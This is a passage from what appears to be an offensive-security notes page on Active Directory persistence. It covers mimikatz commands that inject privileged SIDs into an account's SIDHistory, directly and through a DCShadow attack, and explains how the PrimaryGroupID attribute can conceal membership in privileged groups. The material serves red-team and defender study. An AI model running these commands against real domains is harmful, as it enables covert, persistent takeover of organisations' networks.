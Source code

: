 ```
mimikatz # sid::add /sam:<SAMACCOUNTNAME> /new:<S-1-5-21-<FOREST_DOMAIN>-519 | EXTRA_SID>
```

###### SID History modification through DCShadow

The restriction on the modification of the `SIDHistory` attribute can be also
bypassed through a `DCShadow` attack to arbitrarily set an account `SIDHistory`
attribute. For more details on the `DCShadow` attack, refer to the
"DCShadow ACL" section of this note.

**This technique will override any `SID(s)` currently present in the `security
principal`'s `SIDHistory` attribute.**

```
# Two mimikatz interpreters (executed on a machine member of the domain) are required for the DCShadow attack:
# One running as "NT AUTHORITY\SYSTEM", the second as a domain user with enough privileges to conducted the DCShadow attack (usually a "Domain Admins").
# The following mimikatz commands must be executed sequentially (the /push must be done after the operation as been entered).

# First interpreter (executed as "NT AUTHORITY\SYSTEM").
mimikatz # lsadump::dcshadow /object:<USERNAME> /attribute:SIDHistory /value:<S-1-5-21-<FOREST_DOMAIN>-519 | SID>

# Second interpreter (executed as the privileged domain account).
mimikatz # lsadump::dcshadow /push
```

### PrimaryGroupID

The `PrimaryGroupID` attribute of an user or machine account contains the
`Relative IDentifier (RID)` of a domain group and gives an implicit membership
to the specified group. The `PrimaryGroupID` attribute is used to support
integration of `UNIX POSIX` clients but is not otherwise specifically used
in `Active Directory`.

The group membership granted by the `PrimaryGroupID` attribute does not appear
in the account's `MemberOf` nor in the group's `Members` `LDAP` attributes. It
will however be included in `constructed attributes` "constructed" through
Microsoft APIs (such as group membership returned by the `Active Directory`
PowerShell module, `MMC`'s snappins, the `net` utility, etc.). It can thus be
used, to a certain extent, to dissimulate membership of a standard account to a
privileged group.

In `kerberos` authentication, the `PrimaryGroupID` attribute of an account
populate the account's `kerberos` tickets `_KERB_VALIDATION_INFO`'s
`PrimaryGroupId` and `GroupIds` fields (in the tickets' `Privilege Attribute
Certificate (PAC)`).

Depending on the account type, the account's `PrimaryGroupID` attribute takes
a different default value:

| Account type | PrimaryGroupID | Corresponding group |
|--------------|----------------|---------------------|
| User account | `513` | `Domain Users` <br><br> constant: `DOMAIN_GROUP_RID_USERS` |
| `Guest` account | `514` | `Domain Guests` |
| Machine account | `515` | `Domain Computers` <br><br> constant: `DOMAIN_GROUP_RID_COMPUTERS` |
| Domain Controllers machine account | `516` | `Domain Controllers` <br><br> constant: `DOMAIN_GROUP_RID_CONTROLLERS` |
| Read Only Domain Controllers machine account | `521 ` | `Read-only Domain Controllers` <br><br> constant: `DOMAIN_GROUP_RID_READONLY_CONTROLLERS` |
